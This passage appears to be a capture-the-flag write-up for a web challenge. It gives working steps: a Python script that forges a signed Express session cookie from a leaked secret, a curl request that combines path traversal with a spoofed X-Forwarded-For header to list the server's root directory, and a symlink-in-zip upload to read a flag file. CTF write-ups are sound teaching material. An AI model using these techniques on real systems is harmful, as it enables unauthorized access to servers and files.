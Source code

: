 > store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => { \
> SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b

Forge a cookie:

```python
import hmac, hashlib, base64

secret = b"3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b"
sid = "amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E"

sig = hmac.new(secret, sid.encode(), hashlib.sha256).digest()
sig_b64 = base64.b64encode(sig).decode().rstrip("=")

cookie = f"s:{sid}.{sig_b64}"
print("connect.sid=" + cookie)
```

List the files/directories in the `/` directory

```shell
curl https://web-slippy-d07ebf9335bd26f7.challs.tfcctf.com/debug/files?session_id=../../../ \
-H "Cookie: connect.sid=s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE" \
-H "X-Forwarded-For: 127.0.0.1"
```

We find the flag directory:

```html
<li class="list-group-item">
    tlhedn6f
    <a href="/files/tlhedn6f" class="button">Download</a>
</li>
```

Symlink attack again:

```shell
ln -s /tlhedn6f/flag.txt flaglink
zip --symlinks flag.zip flaglink
```

Upload the zip and download the "flaglink" file -> this gives the flag
